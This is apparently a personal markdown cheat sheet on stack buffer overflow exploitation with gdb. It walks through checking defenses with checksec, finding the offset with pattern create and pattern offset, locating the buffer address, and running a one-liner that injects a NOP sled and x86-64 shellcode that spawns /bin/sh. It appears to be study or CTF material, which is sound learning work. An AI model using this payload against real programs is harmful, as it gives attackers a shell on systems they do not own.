



Check defenses enabled using `gdb <binary file>` then `checksec` and use the appropriate section to exploit.

## No stack canary, ASLR

1. `pattern create 200` or more than 200 based on the size of the buffer.
2. `run $(python -c 'print "<output of prev command without the quotes>"')` (Use `run < <(python -c...)` if the user input is not supposed to be in the arguments)

3. `pattern offset <data inside RBP>` (refer to image below)

4. [Find address of buffer](/docs/general/Buffer%20Overflow#finding-address-of-buffer). Then put it as the last 8 bytes in the command below (+offset a few bytes so that it will land on the NOP slide). Take note if ur system is using big endian or little endian.
5. `run $(python -c "print '\x90'*<offset-32> + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x90'*16 + '\xb0\xe2\xff\xff\xff\x7f\x00\x00'")`

## Finding address of buffer
Let's say the vulnerable buffer is a variable named 'buf'.
1. `disas main`
2. Find out where buf has been already been allocated. Let's say the vulnerable function is strcpy, then choose the offset of the instruction right after the strcpy call.

3. `break <address found in prev step>`
4. `run $(python -c 'print("F"*300)')` (run the program normally (i think))
5. `print &buf`

